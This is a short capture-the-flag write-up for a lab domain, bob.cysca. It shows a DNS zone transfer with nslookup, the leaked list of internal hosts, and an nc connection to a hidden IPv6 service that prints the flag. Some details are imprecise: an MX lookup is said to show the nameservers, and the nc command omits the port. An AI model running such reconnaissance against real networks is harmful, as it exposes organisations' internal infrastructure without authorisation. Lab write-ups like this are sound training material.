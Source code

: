 Corporate Pentest 1 writeup *Zonedv6*

___
We were initially given the domain bob.cysca

If we do host -t mx bob.cysca we see that it's DNS is managed by ns.bob.cysca and ns6.bob.cysca

Attempting a zone transfer with *nslookup -type=axfr bob.cysca ns6.bob.cysca* gave us the output
___
bob.cysca
    origin = ns.bob.cysca
    mail addr = admin.bob.cysca
    serial = 2018020402
    refresh = 28800
    retry = 7200
    expire = 864000
    minimum = 86400
bob.cysca    nameserver = ns.bob.cysca.
bob.cysca    nameserver = ns6.bob.cysca.
Name:    bob.cysca
Address: fc00:1337:1::33b5:33b5
Name:    bob.cysca
Address: 172.16.5.53
flag.udp.bob.cysca    service = 10 10 34532 axfr6flag.bob.cysca.
Name:    aircon.bob.cysca
Address: fc00:1337:1::a17c:4
Name:    axfr6flag.bob.cysca
Address: fc00:1337:1::af76:f1a6
Name:    devbox.dev.bob.cysca
Address: 10.10.5.22
Name:    gitlab.dev.bob.cysca
Address: 10.10.5.116
Name:    glrunner.dev.bob.cysca
Address: 10.10.5.166
Name:    www.dev.bob.cysca
Address: 10.10.5.80
Name:    ns.bob.cysca
Address: 172.16.5.53
Name:    ns6.bob.cysca
Address: fc00:1337:1::10
Name:    custdata.safe.bob.cysca
Address: 10.10.5.192
Name:    w1.bob.cysca
Address: 10.10.5.112
Name:    w1.bob.cysca
Address: fc00:1337:2::3075:7104
Name:    w2.bob.cysca
Address: 10.10.5.113
Name:    www.bob.cysca
Address: fc00:1337:1::33b5:33b5
Name:    www.bob.cysca
Address: 172.16.5.53
bob.cysca
    origin = ns.bob.cysca
    mail addr = admin.bob.cysca
    serial = 2018020402
    refresh = 28800
    retry = 7200
    expire = 864000
    minimum = 86400
___
From this we can see axfr6flag.bob.cysca has a service running on port 34532

using openbsd-nc we can connect to it by executing

*nc -6v axfr6flag.bob.cysca* 

and it will print the flag
